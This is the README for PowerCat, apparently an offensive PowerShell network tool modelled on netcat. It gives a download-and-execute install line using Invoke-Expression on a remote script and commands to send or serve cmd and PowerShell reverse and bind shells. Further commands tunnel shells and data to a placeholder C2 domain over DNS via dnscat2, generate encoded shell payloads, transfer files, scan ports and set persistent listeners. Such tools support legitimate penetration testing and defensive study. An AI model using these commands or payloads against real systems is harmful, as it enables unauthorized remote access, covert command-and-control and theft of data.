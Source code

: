 PowerCat
========
A PowerShell TCP/IP swiss army knife. #requires -Version 2

Installation
------------
PowerCat is a PowerShell module.  First you need to import the module before you can use the PowerCat functions.  You can put one of the below commands into your PowerShell profile so PowerCat is automatically loaded when PowerShell starts.
###
    Import the functions from downloaded .psm1 File:
        Import-Module PowerCat.psm1
    Load the functions individually from URL:
        Invoke-Expression (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/secabstraction/PowerCat/master/Invoke-PowerCat.ps1')
        Invoke-Expression (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/secabstraction/PowerCat/master/Invoke-DnsCat.ps1')

### Parameters:
    
    Invoke-PowerCat
    
    -Listener       Listen for a connection.                            [Switch]
    -Client         IPv4 address of a listener to connect to.           [String]
    -Port           The port to connect to, or listen on.               [Int]
    -Execute        Execute a process.                                  [String]
    -PowerShell     Execute Powershell.                                 [Switch]
    -Relay          Format: "-r tcp:10.1.1.1:443"                       [String]
    -Udp            Transfer data over UDP.                             [Switch]
    -Timeout        Timeout option. Default: 60                         [Int]
    -Input          Filepath (string), byte array, or string.           [Object]
    -OutputType     Console Output Type: "Host", "Bytes", or "String"   [String]
    -OutputFile     Output File Path.                                   [String]
    -Disconnect     Disconnect after connecting.                        [Switch]
    -Repeat         Restart after disconnecting.                        [Switch]
    -Payload        Generate payload.                                   [Switch]
    -Encoded        Generate Base64 encoded payload.                    [Switch]
    
    Invoke-DnsCat
    
    -Server         Name of DnsCat2 server to connect to.               [String]
    -Threshold      DNS Failure Threshold.                              [Int]

Basic Connections
-----------------------------------
By default, PowerCat reads input from the console and writes input to the console using write-host. You can change the output type to 'Bytes', or 'String' with the -OutputType.
###
    Basic Listener:
        Invoke-PowerCat -Listener -Port 443
        
    Basic Client:
        Invoke-PowerCat -Client 10.1.1.1 -Port 443
        
    Basic Client, Output as Bytes:
        Invoke-PowerCat -Client 10.1.1.1 -Port 443 -OutputType Bytes

File Transfer
-------------
PowerCat can be used to transfer files using the -Input and -OutputFile parameters.
###
    Send File:
        Invoke-PowerCat -Client 10.1.1.1 -Port 443 -Input C:\pathto\inputfile
        
    Recieve File:
        Invoke-PowerCat -Listener -Port 443 -OutputFile C:\pathto\outputfile

Shells
------
PowerCat can be used to send and serve shells. Specify an executable to -Execute, or use -PowerShell to execute powershell.
###
    Serve a cmd Shell:
        Invoke-PowerCat -Listener -Port 443 -Execute cmd
        
    Send a cmd Shell:
        Invoke-PowerCat -Client 10.1.1.1 -Port 443 -Execute cmd
        
    Serve a shell which executes powershell commands:
        Invoke-PowerCat -Listener -Port 443 -PowerShell

DNS and UDP
-----------
PowerCat supports more than sending data over TCP. Specify the -Udp paratmeter to enable UDP Mode. Data can also be sent to a [dnscat2 server](https://github.com/iagox86/dnscat2) via Invoke-DnsCat.
###
    Send Data Over UDP:
        Invoke-PowerCat -Listener -Port 8000 -Udp
        
    Connect to the c2.example.com dnscat2 server using the DNS server on 10.1.1.1:
        Invoke-DnsCat -Client 10.1.1.1 -Port 53 -Server c2.example.com
        
    Send a shell to the c2.example.com dnscat2 server using the default DNS server in Windows:
        Invoke-DnsCat -Server c2.example.com -Execute cmd

Relays
------
Relays in PowerCat work just like traditional netcat relays, but you don't have to create a file or start a second process. You can also relay data between connections of different protocols.
###
    TCP Listener to TCP Client Relay:
        Invoke-PowerCat -Listener -Port 8000 -Relay tcp:10.1.1.16:443
        
    TCP Listener to UDP Client Relay:
        Invoke-PowerCat -Listener -Port 8000 -Relay udp:10.1.1.16:53
        
    TCP Listener to DNS Client Relay
        Invoke-DnsCat -Listener -Port 8000 -Relay dns:10.1.1.1:53:c2.example.com
        
    TCP Listener to DNS Client Relay using the Windows Default DNS Server
        Invoke-DnsCat -Listener -Port 8000 -Relay dns:::c2.example.com
        
    TCP Client to Client Relay
        Invoke-PowerCat -Client 10.1.1.1 -Port 9000 -Relay tcp:10.1.1.16:443
        
    TCP Listener to Listener Relay
        Invoke-PowerCat -Listener -Port 8000 -Relay tcp:9000

Generate Payloads
-----------------
Payloads can be generated using -Payload or -Encoded parameters. 
###
    Generate a reverse tcp payload which connects back to 10.1.1.15 port 443:
        Invoke-PowerCat -Client 10.1.1.15 -Port 443 -Execute cmd -Payload
        
    Generate a bind tcp encoded command which listens on port 8000:
        Invoke-PowerCat -Listener -Port 8000 -Execute cmd -Encoded

Misc Usage
----------
PowerCat can also be used to perform port-scans, and start persistent listeners.
###
    Basic TCP port scan:
        1..1024 | ForEach-Object { Invoke-PowerCat -Client 10.1.1.10 -Port $_ -Timeout 1 -Verbose -Disconnect }
    
    Basic UDP port scan:
        1..1024 | ForEach-Object { Invoke-PowerCat -Mode Udp -Client 10.1.1.10 -Port $_ -Timeout 1 -Verbose }
        
    Persistent listener:
        Invoke-PowerCat -Listener -Port 443 -Input C:\pathto\inputfile -Repeat
